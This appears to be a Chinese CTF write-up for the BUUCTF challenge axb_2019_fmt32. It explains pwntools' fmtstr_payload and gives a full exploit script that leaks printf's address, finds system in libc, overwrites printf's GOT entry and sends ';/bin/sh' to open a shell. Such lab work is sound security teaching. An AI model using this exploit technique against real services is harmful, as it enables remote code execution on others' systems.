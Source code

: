 ### Fmtstr_payload 获取 shell

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67dcf10e88c538a9b5c28a9a.png)

继上一节拿到获取到 libc 版本后

这时可以通过 pwntools 的 fmtstr_payload 功能来简化格式化字符串漏洞利用

不用再自己一点一点小心地构造 payload，而交给 pwntools 来自动完成

```c
// 第一个参数表示格式化字符串的偏移
// 第二个参数表示需要利用 %n 写入的数据，采用字典形式，我们要将 printf 的 GOT 数据改为 system 函数地址，就写成 {printf_GOT: systemAddress}
// 第三个参数表示已经输出的字符个数，这里没有，为 0，采用默认值即可
// 第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着 hhn、hn 和 n，默认值是 byte，即按 hhn 写
fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')
```

构造 payload

```python
payload = b'a' + fmtstr_payload(8,{printf_got:system},write_size="byte",numbwritten=0xa)
```

payload 参考原因：0xa = 1（payload 前面的 a）+ 9（payload 长度）

![](https://pic1.imgdb.cn/item/67dd0e3d88c538a9b5c2afc1.png)

之后传入 ";/bin/sh\x00" 即可以获取 shell

`;` 是 shell 中的一个命令分隔符，它的作用是分隔两条命令，允许在一行中执行多个命令

`;` 是为了确保无论目标程序如何调用 `printf`，`/bin/sh` 都能被正确执行

`\x00` 是为了确保字符串被正确截断，避免后续数据干扰

```python
from pwn import *
from LibcSearcher import *

context(os='linux',arch='i386')

r = remote("node5.buuoj.cn","25268")
elf = ELF("./axb_2019_fmt32")

printf_got = elf.got['printf']

payload = b'a' + p32(printf_got) + b'B'+ b'%8$s'
r.sendafter('me:', payload)
r.recvuntil("B")
printf_addr = u32(r.recv(4))

libc = LibcSearcher('printf',printf_addr)
libc_base = printf_addr - libc.dump('printf')
system = libc_base + libc.dump('system')

payload = b'a' + fmtstr_payload(8,{printf_got:system},numbwritten = 0xa)

r.sendline(payload)
r.sendline(';/bin/sh\x00')
r.interactive()
```

